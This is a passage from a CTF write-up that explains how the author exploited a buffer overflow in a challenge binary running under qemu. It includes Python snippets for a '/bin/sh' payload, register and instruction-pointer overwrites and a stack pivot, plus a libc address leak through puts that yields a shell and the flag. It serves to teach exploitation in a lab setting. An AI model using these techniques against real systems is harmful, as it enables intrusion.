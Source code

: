 ```python
deepest_secret += b"/bin/sh\0"

send(deepest_secret + (secret_len - len(deepest_secret)) * b"A")
```

So our second buffer overflow looks like this:
```python
for i in range (1, 11):
    if i == 10: # instruction pointer
        send(p32(0x20538))
    elif i == 9: # lr, aka. r30
        send(p32(stack_pivot_start + 0x28))
    else:
        send(p32(0x69420000 | i))
```

But wait, how do we know the address of `system`? Well, `qemu` does not seem to randomize the library layout, so once you know where the libc is, you can hardcode that address. As I had to find out later though, the address mapping is not constant across devices. To verify that `chall` was still at the right address, I returned into the plt entry of puts, with the address `secret+0x230` as an argument. Since it was the same, I got the expected value, `"/bin/sh"`. To find out what the `system` address is on our target, I jumped to the plt entry of `puts`, with the got-address of `puts` as an argument. And there we had it: Simply adding `0x200000` to my hardcoded `system`-address did the trick!

Running the exploit against the remote server and running `cat flag.txt` in the shell gave me the flag for this challenge: `ptm{qu4lC0mm_94V3_m3_l3m0n5_50_1_m4d3_L3M0n4D3}`.

The challenge was solved by 8/10 teams during the CTF, and in the end was worth 129 points.
